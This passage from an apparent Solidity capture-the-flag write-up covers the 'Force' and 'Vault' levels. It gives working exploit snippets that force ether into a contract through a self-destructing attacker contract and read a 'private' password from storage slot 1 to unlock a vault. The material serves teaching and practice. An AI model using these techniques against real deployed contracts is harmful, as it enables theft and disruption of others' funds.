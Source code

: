 Then we create the first contract, giving it `1 wei`.

```solidity
(bool success,) = address(attackerContract).call{value: 1 wei}("");
success;
```

And invoke the attack at `ForceAttack.byebye()`

```
attackerContract.byebye(payable(challengeAddress));
```

### References

* https://docs.soliditylang.org/en/v0.8.18/contracts.html#receive-ether-function
* https://docs.soliditylang.org/en/v0.8.19/introduction-to-smart-contracts.html#deactivate-and-self-destruct

## 08 Vault

To beat this level, we need to comply with

```solidity
!instance.locked();
```

### Solution

The vault unlocks when the `locked` variable is false.

In theory one has to know its password (which is a private variable in the contract) to beat the level...

```solidity
bytes32 private password;
```

```solidity
function unlock(bytes32 _password) public {
  if (password == _password) {
    locked = false;
  }
}
```

... But blockchain data is public! Being `password` the second variable in the `Vault` contract, it is assigned to the slot `1`. Then. to beat this level, we just read the slot to get the password, and use it to unlock the vault.

```solidity
// as reading another's contract storage
// is not supported by solidity (i.e. It needs a forge "cheatcode"),
// imagine this attack being made from a forge script
bytes32 password = vm.load(challengeAddress, bytes32(uint256(1)));

// too lazy to write code for an interface? Just do the call
(bool success,) = challengeAddress.call(abi.encodeWithSignature("unlock(bytes32)", password));
success;
```
